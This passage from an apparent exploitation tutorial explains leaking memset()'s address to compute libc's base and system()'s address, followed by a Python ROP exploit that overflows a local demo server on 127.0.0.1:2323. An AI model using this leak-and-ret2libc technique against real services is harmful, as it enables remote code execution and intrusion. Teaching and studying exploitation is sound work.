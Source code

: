 memset()'s offset is at 0x8c5c0. Subtracting this from the leaked memset()'s address will give us libc's base address. 

To find the address of any library function, we just do the reverse and add the function's offset to libc's base address. So to find system()'s address, we get its offset from libc.so.6, and add it to libc's base address.

Here's our modified exploit that leaks memset()'s address, calculates libc's base address, and finds the address of system():

```python
# ./poc.py
#!/usr/bin/env python

from socket import *
from struct import *

write_plt  = 0x400540            # address of write@plt
memset_got = 0x601030            # memset()'s GOT entry
memset_off = 0x08c5c0            # memset()'s offset in libc.so.6
system_off = 0x046640            # system()'s offset in libc.so.6
pop3ret    = 0x4006a1            # gadget to pop rdi; pop rsi; pop rdx; ret

buf = ""
buf += "A"*168                  # padding to RIP's offset
buf += pack("<Q", pop3ret)      # pop args into registers
buf += pack("<Q", 0x1)          # stdout
buf += pack("<Q", memset_got)   # address to read from
buf += pack("<Q", 0x8)          # number of bytes to write to stdout
buf += pack("<Q", write_plt)    # return to write@plt

s = socket(AF_INET, SOCK_STREAM)
s.connect(("127.0.0.1", 2323))

print s.recv(1024)              # "Enter input" prompt
s.send(buf + "\n")              # send buf to overwrite RIP
print s.recv(1024)              # receive server reply
d = s.recv(1024)[-8:]           # we returned to write@plt, so receive the leaked memset() libc address
                                # which is the last 8 bytes in the reply

memset_addr = unpack("<Q", d)
print "memset() is at", hex(memset_addr[0])

libc_base = memset_addr[0] - memset_off
print "libc base is", hex(libc_base)

system_addr = libc_base + system_off
print "system() is at", hex(system_addr)

# keep socket open so gdb doesn't get a SIGTERM
while True:
    s.recv(1024)
```
